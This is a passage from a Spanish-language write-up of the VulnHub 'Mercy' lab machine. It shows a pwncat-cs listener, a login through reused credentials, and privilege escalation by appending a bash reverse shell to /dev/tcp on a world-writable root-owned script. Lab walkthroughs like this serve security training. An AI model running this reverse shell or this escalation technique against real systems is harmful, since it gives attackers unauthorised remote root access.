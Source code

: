 
Se configuró una escucha con pwncat-cs -lp 443 y se utilizó pwncat-cs para obtener una TTY completa, ya que la manipulación manual causaba problemas en la máquina víctima. Una vez que la conexión se estableció, se tuvo que presionar Ctrl + D para ejecutar comandos en la máquina víctima.

![](/assets/images/vulnhub-writeup-mercy/pwcat.png)


Una vez logueados como "fluffy" utilizando credenciales reutilizadas, se exploró su directorio y se encontró un archivo interesante.

```bash
fluffy@MERCY:~/.private/secrets$ ls -la
total 20
drwxr-xr-x 2 fluffy fluffy 4096 Nov 20  2018 .
drwxr-xr-x 3 fluffy fluffy 4096 Nov 20  2018 ..
-rwxr-xr-x 1 fluffy fluffy   37 Nov 20  2018 backup.save
-rw-r--r-- 1 fluffy fluffy   12 Nov 20  2018 .secrets
-rwxrwxrwx 1 root   root     96 Oct 20 21:23 timeclock
fluffy@MERCY:~/.private/secrets$ 
```

Se introdujo una reverse shell en la máquina para mantener acceso y control remoto.

```bash
fluffy@MERCY:~/.private/secrets$ echo "bash -i >& /dev/tcp/192.168.56.1/443 0>&1" >> timeclock 
fluffy@MERCY:~/.private/secrets$ 
```

## ROOT :)!

![](/assets/images/vulnhub-writeup-mercy/root.png)


